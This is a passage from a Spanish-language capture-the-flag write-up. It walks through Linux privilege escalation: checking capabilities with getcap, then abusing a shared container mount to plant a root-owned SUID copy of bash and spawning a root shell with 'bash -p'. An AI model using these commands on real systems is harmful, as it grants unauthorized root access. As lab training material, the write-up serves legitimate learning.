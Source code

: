 ```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities
```

```bash
❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

	# Tipos de capabilires:
	# cap_setuid=ep = Nos permite setear el UID y hacer que opere como root
```
Pero no nos ayuda de nada


* Para hacer la escalada debemos de recordar que cuando estabamos en el contenedor eramos el usuario root. Por lo que debemos de copiarnos la bash de Augustus y lo que hagamos se vera reflejado en el contenedor, ya que es una montura.
```bash
❯ cp /bin/bash .                           # Copiamos la bash en el dir actual de augustus
❯ exit                                     # Despues nos salimos de la interfaz ssh 172.19.0.1, por lo que regresaremos al contenedor 172.19.0.2
```

```bash
❯ cd /home/augustus/                       # Nos dirigimos al directorio montado
❯ ls -l                                    # Ahi veremos tanto la bash como el user.txt y miramos los privilegios de los archivos
```

```bash
❯ chown root:root bash                     # Le asignamos de propietario y grupo 'root' a la bash
```

```bash
❯ chmod 4755 bash                          # Le cambiamos los privilegios SUID y ahora tendra una 's'
```

Despues regresamos a la maquina original con ssh
```bash
❯ ssh augustus@172.19.0.1                  # Regresamos a la interfaz de la maquina'real' 
```

Una vez adentro colocamos nos montamos la bash con el siguiente comando
```bash
❯ ./bash -p                                # Y asi obtenemos la bash del root

	# p = privilege
```

```bash
❯ whoami                                   # Para verificar si estamos como root
```

Buscamos la flag en el **/root/root.txt**

